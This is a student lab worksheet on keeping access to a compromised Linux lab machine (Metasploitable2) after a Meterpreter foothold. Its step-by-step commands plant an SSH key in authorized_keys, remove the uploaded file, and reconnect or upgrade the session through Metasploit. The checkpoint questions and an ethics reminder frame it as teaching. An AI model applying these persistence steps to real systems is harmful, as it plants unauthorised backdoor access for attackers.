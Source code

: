 # 📝 Student Worksheet – SSH Persistence After Initial Foothold

## Objective  
In this lab, you will learn how to maintain access on a compromised Linux system by setting up **SSH key-based persistence** after gaining your first shell foothold (e.g., via Meterpreter).

**IMPORTANT** You must have a Meterpreter session to your target as a pre-requisite for this worksheet!

---

## Step 1 – Generate SSH Keys (on Kali)  
We first create an RSA key pair (public + private key) to authenticate later.

```bash
ssh-keygen -t rsa -b 2048 -f ./id_rsa -N ""
```

✅ **Checkpoint:**  
1. Which two files were generated? (e.g., `id_rsa`, `id_rsa.pub`)?
- Answer: id_rsa, id_rsa.pub
2. Which file should never be shared? (private key or public key?)
- Answer:

---

## Step 2 – Upload Public Key to Target  
From your Meterpreter session, upload the public key:

```bash
upload id_rsa.pub /tmp/id_rsa.pub
```

✅ **Checkpoint:**  
3. Where is the public key stored on the target?
- Answer:

---

## Step 3 – Configure Persistence on Target  
Open a shell inside Meterpreter:

```bash
shell
```

Now run these commands **one at a time**:

```bash
mkdir -p ~/.ssh
cat /tmp/id_rsa.pub >> ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
rm /tmp/id_rsa.pub
exit
```

✅ **Checkpoint:**  
4. What does `chmod 600 ~/.ssh/authorized_keys` do?  
- Answer: 

---

## Step 4 – Connect Back with SSH  
On Kali, use the private key to connect:

```bash
ssh -i ./id_rsa -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa <username>@<target-ip>
```

- **Username:** Found by running `whoami` inside the foothold shell (e.g., `www-data`)  
- **Target IP:** Found on Metasploitable2 using:

```bash
ifconfig
```

✅ **Checkpoint:**  
5. What username did you gain access as? 
- Answer:  
6. What is the target IP?
- Answer:

**Note:** Type `yes` if prompted about host fingerprinting.  

---

## Step 5 – Persistence with Metasploit (Optional)  
You can also manage SSH persistence via Metasploit.

1. Start Metasploit:  
   ```bash
   msfconsole
   ```

2. Configure the module:  
   ```bash
   use auxiliary/scanner/ssh/ssh_login_pubkey
   set rhost <target-ip>
   set USERNAME www-data
   set KEY_PATH ./id_rsa
   set SSH_KEYFILE_ALGS +ssh-rsa,ssh-dss
   run
   ```

3. List sessions:  
   ```bash
   sessions -l
   ```

4. Upgrade shell session to Meterpreter:  
   ```bash
   sessions -u <session-id>
   ```

5. Interact with the new session:  
   ```bash
   sessions -i <new-session-id>
   ```

✅ **Checkpoint:**  
7. What session ID was upgraded?  
- Answer:
8. Why might upgrading to Meterpreter be useful?
- Answer:

---

## Reflection Questions
9. Why is SSH persistence more reliable than keeping only a Meterpreter shell?
- Answer:  
10. What security controls could prevent an attacker from using this technique?  
- Answer: 

---

⚠️ **Ethics Reminder:**  
This technique is for **educational purposes only**. Never attempt persistence on a system you do not own or have explicit permission to test.  
